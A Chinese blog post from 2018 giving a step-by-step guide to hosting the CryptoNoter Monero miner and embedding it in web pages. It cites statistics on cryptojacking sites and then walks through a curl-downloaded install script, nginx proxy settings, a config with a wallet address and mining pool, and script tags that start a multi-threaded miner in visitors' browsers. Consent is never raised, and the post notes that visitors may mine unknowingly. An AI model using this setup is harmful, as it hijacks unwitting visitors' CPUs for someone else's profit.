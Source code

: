 ```yaml
---
title: 门罗币挖矿网页的搭建
comments: false
date: 2018-03-23 10:17:45
categories: 矿池
tags:
- lucas56
- 矿池
- 门罗币
img:
---
```

2017年9月18日全球最大的BT下载网站海盗湾利用网页内嵌的Javascript程序（一段JS代码），“借用”浏览者的电脑用作挖掘虚拟货币的用途，也就是挖矿.

根据360网络安全研究院发布的被挂挖矿代码网站的分析
0.2% 的网站在首页嵌入了Web挖矿代码：

* Alexa Top 10万的网站中，有 241 (0.24%) ； Alexa Top 30万的网站中，有 629 (0.21%)

* 色情相关网站是主体，占据了这些网站的49%。其它还有诈骗（8%）、广告（7%）、挖矿（7%）、影视（6%）等类别

* 10+ 挖矿网站提供挖矿能力支撑，其中最大的是是 coinhive.com，占据了大约 57% 的份额，然后是 coin-hive.com (8%)、load.jsecoin.com (7%)、webmine.pro(4%)、authedmine.com (4%) 及其他.

当前网页挖矿已经成为一个市场，市场中的角色包括：

* 终端用户：当前他们的利益是被忽视的
* 挖矿网站：新玩家，提供网页挖矿脚本和能力
* 内容/流量网站：既有网站，有庞大的用户但缺少变现手段.现在他们将既往无利可图的流量导向挖矿网站，利用消费者的算力网页挖矿，完成变现。最近也开始有一些内容网站，他们自行搭建挖矿能力，肥水不留外人田.


对比一般挖矿,矿工需要主动使用挖矿客户端进行CPU或GPU计算,而在使用网页内嵌Javascript进行挖矿,只需要浏览者在知情或不知情的情况下产生的CPU或GPU计算.

<h1>安装</h1>
为了方便,这里使用开源的cryptonoter脚本直接搭建,os是ubuntu sever 16.04 + nginx.

```
curl https://raw.githubusercontent.com/cryptonoter/CryptoNoter/master/install.sh > install.sh
chmod +x install.sh
./install.sh
```

在安装过程中需要,需要指定Monero钱包地址,如果未指定钱包地址，安装程序会在继续安装之前提示.这里也可以直接使用交易所或者钱包地址.

```
Listen Port (7777) >                 //监听端口默认7777
Your Domain (localhost) >              //域名
[3] Pool Host&Port (pool.cryptonoter.com:1111) >   //矿池服务器
[4] Your XMR /ETN / BCN wallet (Important) >     //钱包地址
```

确定以上信息后,脚本会自动向 /etc/nginx/sites-available 里写入配置文件 CryptoNoter.conf , 这里方便测试,直接修改 /etc/nginx/nginx.conf ,在http字段插入CryptoNoter.conf后重新加载nginx配置:
```
include /etc/nginx/sites-enabled/CryptoNoter.conf;
nginx -s reload
```
当然也可以自行配制nginx.conf:
```
  location /proxy {  
 	add_header 'Access-Control-Allow-Origin' * always;
 	proxy_pass http://localhost:7777;
    proxy_http_version 1.1;
    proxy_set_header Upgrade $http_upgrade;
    proxy_set_header Connection "upgrade";
   }
```


 <h1>配置</h1>
 
 首先进去/srv/CryptoNoter/web/目录,复制config.EXAMPLE.json里的配置到config.json.
 
```
cd /srv/CryptoNoter
cp config.EXAMPLE.json config.json 
```
可以修改config.json的内容以适配:

```
{
  "lhost": "127.0.0.1",      //网站IP
  "lport": 7777,          //网站端口
  "domain": "localhost",      //域名
  "pool": "mine.ppxxmr.com:3333", //矿池
  "addr": "44RPVcXkWm8br7CDSmMhMq7Ku5ravkgDPRVZuCG2CQ5FX1WYV5BhntMS7Ymba5imFFMvfvWqjcvxehJcUYmWPFWQEsNz8iK",              //钱包地址
  "pass": "x"           //挖矿密码
}
```

将worker.js, processor.js , lib/cryptonight-asmjs.min.js 里的 %CryptoNoter_domain% 替换为自己的域名,例如:
```
self.CryptoNoter = self.CryptoNoter || {};
self.CryptoNoter.CONFIG = {
  LIB_URL: "https://%CryptoNoter_domain%/lib/",
  WEBSOCKET_SHARDS: [["wss://%CryptoNoter_domain%/proxy"]],
  CAPTCHA_URL: "https://%CryptoNoter_domain%/captcha/",
  MINER_URL: "https://%CryptoNoter_domain%/media/miner.html"
};
```
* 注意这个坑,如果网站没有或没有使用ssl证书,需要把 wss://1.2.3.4 修改为 ws://1.2.3.4 .

替换完以上内容就可以启动了:
```
forever start /srv/CryptoNoter/server.js //后台运行
或
node /srv/CryptoNoter/server.js
```
可以使用 forever list 来查看当前的运行状态.

```
info:  Forever processes running
data:    uid command    script           forever pid id logfile         uptime
data:  [0] tX4L /usr/bin/node /srv/CryptoNoter/server.js 7379  7385  /root/.forever/tX4L.log 0:0:59:11.96
```

这时候已经可以在网页挖矿了,在网页内插入:

```html
<script src="https://www.cryptonoter.com/processor.js"></script>   //这里域名改成自己的
<script>
  var miner = new CryptoNoter.User('CryptoNoter').start();
</script>
```

也可以使用参数来控制挖矿:
```html
* autothreads（value）矿工开始的线程数量。 
设置为true将自动检测用户计算机上可用的CPU内核数量。

* throttle（value）设置线程闲置的时间比例。 值0表示不节流（即全速），值0.5表示线程将在50％的时间内保持空闲状态，其中0.8表示80％的时间保持空闲状态.

<script src="https://www.cryptonoter.com/processor.js"></script>  //地址一定要换成自己的
<script>
	var addr = 'CryptoNoter';
	var miner = new CryptoNoter.User(addr, {
    autoThreads: true,
	throttle: 0.8
	});
	miner.start();
</script>
```

可以把上面的代码插入到demo.html中进行测试,打开 http://1.2.3.4/demo.html 后会显示出挖矿信息,同时cpu使用量飙升.

这时打开自己接入的矿池,输入钱包地址就可以等着收益了.

